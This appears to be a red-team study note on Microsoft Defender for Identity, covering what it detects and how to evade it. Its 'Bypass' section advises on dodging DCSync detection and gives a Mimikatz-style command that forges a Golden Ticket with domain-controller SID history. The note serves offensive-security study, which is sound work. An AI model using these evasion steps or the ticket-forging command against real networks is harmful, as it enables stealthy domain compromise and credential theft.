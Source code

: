 ```yaml
---
tags:
  - detection-and-defense
cssclasses:
  - DCSync
  - OPTH
  - PTH
  - Kerberoasting
  - MimiKatz
---
```

- It identifies, detects and investigates advanced threats, compromised identities, and malicious insider actions directed at your organization
- MDI sensors are installed on DCs and Federation servers. Analysis and alerting is done in the Azure cloud.
- MDI can be used for detecting
	- Recon
	- Compromised credentials (Brute-Force, [[Kerberoasting]] etc.)
	- Lateral Movement (PTH, OPTH etc.)
	- Domain Dominance (DCSync, [[Golden Ticket]], [[Skeleton Key]] etc.)
	- Exfiltration

## Bypass
- The key is to avoid talking to the DC as long as possible and make the traffic that we generate appear benign.
- To bypass DCSync detection, target users which are whitelisted.
- If we have NTLM hash of a DC, we can extract NTLM hashes of any machine account using netsync.

#### [[Golden Ticket]]
- If we forge a Golden ticket with SID History of the Domain Controllers group and Enterprise Domain Controllers Group, there are less chances of detection by MDI

```batch
BetterSafetyKatz.exe "kerberos::golden /user:domain-controller-machine-account /id:1000 /sid:S-1-XXXXX /sids:S-1-XXXXX,S-1-XXX /krbtgt:<ntlm_hash> /ptt" "exit"
```